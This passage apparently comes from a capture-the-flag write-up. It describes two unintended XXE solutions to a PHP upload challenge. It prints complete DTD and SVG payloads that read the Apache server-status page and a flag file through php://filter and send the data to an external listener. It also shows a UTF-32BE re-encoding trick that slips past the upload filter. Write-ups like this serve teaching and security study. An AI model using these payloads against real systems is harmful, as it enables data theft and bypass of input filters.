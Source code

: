 ![](https://i.imgur.com/XGDwIGH.png)

### Unintend solution - Apache server-status

Apache2's Server-status is on by default, so we can use xxe to read the `server-status`:

```dtd
<!-- xxe.dtd -->
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=http://127.0.0.1/server-status">
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://192.168.200.1:9001/?%file;'>">
```

then use the php decode:

```php
php > echo zlib_decode(base64_decode("$data");
```

![](https://i.imgur.com/0ibo1T6.png)

However, this method can only be used if the flag is short, if the flag is too long, we will only read half of it.

### Unintend solution - Encoding XML

The upload file filtered `/dev`, `/proc`, `/var`, `..`, but xml also supports other encoding formats besides utf-8, refer to [XXE that can Bypass WAF Protection](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0/). Here try using `utf-32be`:

```xml
<!-- xxe.svg -->
<?xml version="1.0" encoding="UTF-32BE"?>
<!DOCTYPE test [
    <!ENTITY % remote SYSTEM "http://192.168.200.1:8000/xxe.dtd">
    %remote;%start;%send;
]>
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
</svg>
```

if we can find out where the flag stored, here because i known in advance :p

```dtd
<!-- xxe.dtd -->
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../../visitor/flag">
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://192.168.200.1:9001/?%file;'>">
```

Then use following command covert the svg file:

```bash
$ iconv -f utf8 -t UTF-32BE xxe.svg > u32.svg
```

the external entity does not need to do anything else, it will become the corresponding encoding after the external entity is loaded.
